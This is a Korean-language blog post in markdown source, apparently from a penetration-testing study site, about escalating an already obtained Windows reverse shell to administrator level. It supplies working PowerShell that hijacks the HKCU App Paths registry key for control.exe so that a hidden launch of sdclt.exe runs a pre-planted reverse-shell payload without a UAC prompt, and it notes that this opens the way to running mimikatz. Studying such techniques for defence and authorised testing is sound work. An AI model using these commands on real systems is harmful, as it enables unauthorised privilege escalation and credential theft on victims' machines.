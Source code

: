 ```yaml
---
layout: post
title: UAC bypass로 관리자 권한 쉘 열기
subtitle: UAC Bypass를 이용한 쉘 권한 높이기 
category: knowledge
thumbnail-img: /assets/img/404-southpark.jpg
tags: [reverseshell, upgrade]
author: Hong
---
```

# 전제조건
윈도우에서 관리자 권한을 가진 유저의 쉘을 취득했을 경우.

GUI가 아니기 때문에 관리자 권한으로 쉘을 열 수 없는 경우. GUI의 경우 페이로드를 cmd.exe로 하면 간단하게 실행 된다.

관리자의 비밀번호를 모르는 경우.

현재 권한을 보면 **관리자 그룹에 들어있지만** 현재 터미널은 Medium Mandatory Level인 것을 알 수 있다.
![medium](/assets/img/knowledge/medium.png)
# sdclt.exe를 악용
sdclt.exe 파일은 윈도우 시스템에서 백업 및 복원을 담당하는 실행 파일이다.

이 실행 파일은 관리자 권한으로 실행되기 때문에 레지스트리의 값을 오염시켜서 원하는 파일을 실행시키는 것이 가능하다.

이번에는 미리 심어둔 리버스쉘 페이로드인 Monitoring Stat Updater1.exe 파일을 실행하도록 한다.

먼저 취득한 쉘에서 powershell 쉘을 사용한다.

다음 아래의 명령어들을 입력한다.

```powershell
[String]$program="C:\Users\Public\monitoring\Monitoring Stat Updater1.exe"
New-Item "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Force
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" -Name "(default)" -Value $program -Force

Start-Process "C:\Windows\System32\sdclt.exe" -WindowStyle Hidden # 이 명령어로 실행
```
HKCU 하위의 폴더에 새로운 레지스트리를 만든 후, 지정한 프로그램을 키 값으로 설정한다.

그리고 Start-Process로 sdclt.exe를 실행시키면 관리자 권한의 쉘이 얻어진다. 

이번에는 리버스쉘의 페이로드를 이용했기 때문에 관리자 권한 쉘을 얻었지만, 프로그램을 cmd.exe로 설정하면 터미널이 관리자 권한으로 열린다.

**GUI에서는 cmd 창이 새로 열리기 때문에 문제없지만**, 원격으로 CLI을 베이스로 통신하고 있기 때문에 리버스쉘의 페이로드를 사용했다.
# GUI의 경우
GUI의 경우에는 관리자 권한으로 실행을 클릭하면 관리자의 비밀번호를 입력하라는 팝업창이 뜨게 된다.

리버스쉘로 쉘은 얻었지만 **관리자의 비밀번호를 모르는 상황**이기 때문에 관리자 권한의 터미널을 사용할 수가 없다.

이때 UAC 바이패스의 페이로드를 cmd.exe로 설정하면 비밀번호를 묻는 팝업 없이 바로 관리자 권한의 터미널이 새로운 창으로 열리게 된다.
# 실행 결과
리버스쉘을 받기위한 포트를 리스닝 상태로 두고 위의 순서대로 UAC bypass를 실행하면 새로운 리버스쉘이 열리게 된다.
![high](/assets/img/knowledge/high.png)
권한을 확인하면 아까와는 다르게 High Mandatory Level이 되어있는 것을 알 수 있다.

그렇기 때문에 이제 mimikatz의 실행이 가능해진다.